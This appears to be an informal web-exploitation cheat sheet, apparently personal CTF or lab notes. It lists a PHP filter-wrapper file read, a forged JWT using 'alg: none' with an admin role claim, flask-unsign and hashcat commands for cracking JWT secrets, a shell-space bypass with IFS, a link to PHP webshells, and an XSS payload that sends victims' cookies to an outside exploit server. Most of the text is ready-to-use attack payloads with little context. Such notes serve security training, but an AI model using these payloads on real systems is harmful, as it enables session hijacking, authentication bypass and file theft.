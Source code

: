 space php use in filter
```php
php://filter/convert.iconv.utf-8.utf-16le/resource=file://
```
---

in JWT 
```JSON 
{
  "typ": "JWT",
  "alg": "none"
}
```
none or NoNe or noNE ...etc                                                            
Don't send the SIGNATURE send like this :

`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ.`
and don't forget dot `.` 

---
to crack jwt use it command :
```bash
flask-unsign --unsign --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt --cookie eyJsb2dpbiI6dHJ1ZSwidXNlciI6Im1vaG5hZCIsImFsZyI6IkhTMjU2In0.Ywfvv703.uwZ8eXSTttoVjrXphTqPQprtQod81UmIo6xRfcWY3ao
```

---
```
in php " " == ${IFS}
```
---
[backdore php](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

---
xss ngrpk paylode
```js
<script> var i=new Image(); i.src='https://exploit-0acc00b804bd4cfac0c1a75b017a007d.web-security-academy.net/exploit?='+document.cookie</script>
```

---
JWT Brute-forcing secret keys using hashcat

```bash
hashcat -a 0 -m 16500 <jwt> <wordlist>
```

---
[Algorithm confusion attacks](https://portswigger.net/web-security/jwt/algorithm-confusion)

Check /jwks.json or /.well-known/jwks.json
